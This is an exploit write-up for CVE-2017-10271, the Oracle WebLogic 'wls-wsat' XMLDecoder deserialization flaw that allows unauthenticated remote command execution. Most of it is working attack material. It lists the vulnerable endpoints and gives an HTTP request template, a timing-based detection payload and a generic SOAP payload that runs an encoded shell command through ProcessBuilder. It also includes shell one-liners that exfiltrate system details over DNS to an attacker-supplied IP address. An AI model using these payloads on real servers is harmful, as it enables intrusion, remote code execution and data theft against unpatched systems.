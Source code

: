 # [Oracle Weblogic Server] - ['wls-wsat' Component Deserialization Remote Command Execution]

* **Exploit Title:** [Oracle Weblogic Server] - ['wls-wsat' Component Deserialization Remote Command Execution]
* **Vendor Homepage**: https://www.oracle.com/security-alerts/cpuoct2017.html
* **Software Link**: https://www.oracle.com/middleware/weblogic/
* **Version**: 10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0 and 12.2.1.2.0
* **Tested on**: Oracle WebLogic 10.3.6.0.0 running on IBM Red Hat linux 
* **CVE** : CVE-2017-10271

---

## Overview

The Oracle WebLogic Server component of Oracle Fusion Middleware "wls-wsat" (versions 10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0, or 12.2.1.2.0) is vulnerable to unsafe deserialization of XML encoded Java objects, leading to remote code execution (RCE), and possibly a full takeover of the web server by any unauthenticated user. Malicious input passed to the "XMLDecoder" constructor and read functions within the "WorkContextXmlInputAdapter" class result in the deserialization of an arbitrary Java serialized object.


## Prerequisites

* 'wls-wsat' component enabled and installed

## Full description

### Vulnerable paths (wls-wsat endpoint list)

* /wls-wsat/CoordinatorPortType
* /wls-wsat/CoordinatorPortType11
* /wls-wsat/ParticipantPortType
* /wls-wsat/ParticipantPortType11
* /wls-wsat/RegistrationPortTypeRPC
* /wls-wsat/RegistrationPortTypeRPC11
* /wls-wsat/RegistrationRequesterPortType
* /wls-wsat/RegistrationRequesterPortType11

### Detecting if the endpoint is vulnerable and handles properly an arbitrary SOAP message

Example using "/wls-wsat/CoordinatorPortType":

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: vulnerableHost
Content-Length: 1226
Content-type: text/xml;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Connection: close
```

Sleep(ms) detection payload:

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java class="java.beans.XMLDecoder">
        <object class="java.lang.Thread" method="sleep">
          <long>10000</long>
        </object>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```


### Encoding payloads to handle special characters

Example of payload - Checking if port 22 is open on the target:
```shell
base64 -w0 << 'EOF'
netstat -ltn | grep -F :22 && ping -c3 <IPAddress>
EOF
```

### Data exfiltration through DNS protocol

Payload 1 - Exfiltrate the system name:
```shell
cat /etc/issue | base64 | xargs -I '{}' dig +time=1 +tries=1 DATA.{} @<IPAddress>
```

Payload 2 - Exfiltrate the name of current working directory:
```shell 
pwd | base64 | xargs -I '{}' dig +time=1 +tries=1 DATA.{} @<IPAddress>
```

### Generic RCE SOAP payload

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <object class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3" >
            <void index="0">
              <string>/bin/sh</string>
            </void>
            <void index="1">
              <string>-c</string>
            </void>
            <void index="2">
              <string>{ echo bmV0c3RhdCAtbHRuIHwgZ3JlcCAtRmkgOjIyICYmIHBpbmcgLWMzIDE5Mi4xNjguMS4xCg== | base64 -d | sh -s; }</string>
            </void>
          </array>
          <void method="start"/>
        </object>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
